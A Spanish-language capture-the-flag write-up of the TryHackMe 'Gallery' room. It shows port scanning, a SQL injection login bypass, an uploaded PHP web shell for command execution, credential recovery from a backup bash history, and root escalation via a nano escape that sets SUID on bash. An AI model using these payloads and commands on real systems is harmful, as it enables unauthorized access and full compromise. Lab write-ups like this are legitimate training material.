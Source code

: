 ```yaml
---
layout: single
title: Gallery - TryHackMe
excerpt: " Try to exploit our image gallery system "
date: 2023-01-31
classes: wide
header:
  teaser: /blog/assets/images/thm-writeup-gallery/gallery.png
  teaser_home_page: true
  icon: /blog/assets/images/tryhackme.webp
categories:
  - tryhackme
tags:
  - backup
  - RCE
  - bash
  - SQLI
  - sudoer
---
```


Try to exploit our image gallery system

# Summary
- IP: 10.10.236.224
- Ports: 80,8080
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  80 -> Apache httpd 2.4.29
	-  8080 -> Apache httpd 2.4.29

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.236.224 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p80,8080 -sCV 10.10.236.224 -oN targeted
```


# Análisis de página web:

- En el puerto 80, vemos la página por defecto de apache.

- En el puerto 8080 nos redirige a un login en el puerto 80 hacia un directorio llamado "gallery", lo analizamos con gobuster:

```bash
$gobuster dir -u http://10.10.236.224/gallery -w /usr/share/SecLists/Discovery/Web-Content/common.txt.txt -t 100
```

- Encontramos algunos directorios interesantes, sin embargo necesitaremos estar autenticados para poder hacer algo.

- Probamos bypassear con SQLI:

```
admin' or 1=1-- -
```

- Vemos que si es vulnerable a SQLI y estaremos dentro como administrador; examinamos a profundidad la página y nos damos cuenta que se trata de un CMS denominado "Simple Gallery Images", buscamos vulnerabilidades y encontramos un RCE y un SQLI, sin embargo vamos a tratar de ganar acceso al sistema de forma manual, buscando una forma de subir archivos PHP.

- Dentro de la pestaña "álbum" si hacemos click en alguno de los que están creados, vemos que podemos subir archivos, intentamos subir un PHP malicioso:

```bash
$nano cmd.php
```

```php
<?php echo passthru($_GET["cmd"]); ?>
```

- Localizamos el archivo abriendo el directorio anteriormente encontrado con gobuster "/uploads", lo abrimos y comprobamos el RCE:

```http
http://10.10.236.224/gallery/uploads/user_1/album_1/1675197900.php?cmd=whoami
```

- Entablamos una reverse shell básica y ganamos acceso al sistema como "www-data".

# ESCALANDO PRIVILEGIOS:

- Hacemos una búsqueda típica de archivos que nos puedan ayudar a escalar privilegios pero no encontramos nada, así que hacemos una búsqueda más profunda, en localizaciones poco comunes.

- Dentro del directorio "var" encontramos un directorio "backups" el cual contiene el directorio "mike_home_backup", lo cual suena bastante interesante, así que lo abrimos y lo analizamos.

- Vemos que tenemos capacidad de lectura en el archivo ".bash_history" así que lo leemos y encontramos una posible credencial para el usuario "mike".

- Accedemos como el usuario "mike" y leemos la primera flag.

- Vemos permisos de sudoers con "sudo -l" y encontramos lo siguiente:

```bash
User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

- Es decir, podemos ejecutar como root el script "rootkit.sh", así que cateamos el mismo para ver qué hace por detrás:

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

- Como podemos apreciar, en una linea de el script ejecuta el binario "nano", lo cual, como ya habíamos analizado anteriormente, se ejecuta como root, esto lo podemos aprovechar haciendo una búsqueda en "gtfobins", y encontramos el siguiente comando:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

- Así que ejecutamos el script escrito en bash como root y elegimos la opción la cual ejecuta el binario nano para inyectar comandos, en lugar de hacer el de gtfobins, otorgaremos permisos SUID a la bash:

```bash
$sudo /bin/bash /opt/rootkit.sh
read
```

```
Ctrl+R    Ctrl+X
chmod u+s /bin/bash
```

- Ya podremos ejecutar la bash con privilegios y seremos root.

```bash
$bash -p
```
